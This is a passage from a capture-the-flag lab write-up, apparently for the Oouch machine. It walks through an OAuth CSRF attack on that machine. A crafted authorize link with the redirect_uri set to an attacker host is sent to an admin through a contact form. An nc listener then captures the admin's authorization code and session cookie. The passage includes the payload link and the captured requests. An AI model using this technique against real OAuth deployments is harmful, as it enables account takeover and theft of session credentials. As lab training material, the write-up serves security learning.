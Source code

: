 ```
Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
Upgrade-Insecure-Requests: 1

```

```

HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: http://10.10.14.6/token?code=eG2kDsLExEKn8tVtzqERCXwyx7b95U
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization, Cookie

```

#### CSRF #2

With the GET request above, I can now send this as a link to the admin and have them click on it and redirect to me. I’ll create the following link:

```

<a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&state=&allow=Authorize">click me</a>

```

About a minute after sending this through the contact form, someone clicks on it from Oouch, and this request comes back:

```

root@kali# nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 45972
GET /token?code=9a5Q0yBlx7ONDslRKGlulr6a7i8vOM HTTP/1.1
Host: 10.10.14.6
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=0wlwoshe5nbpgmgw7357g0a9fgq4xowx;

```

What just happened? I sent a link that when clicked on started the person who clicked in the process of telling the authentication server that they wanted my application to get access to their data on the authorization server, with the request marked in red below. What comes back to my `nc` listener is the client’s browser being redirected to my application with the request marked in green:

[![img](https://0xdfimages.gitlab.io/img/image-20200730181927999.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200730181927999.png)
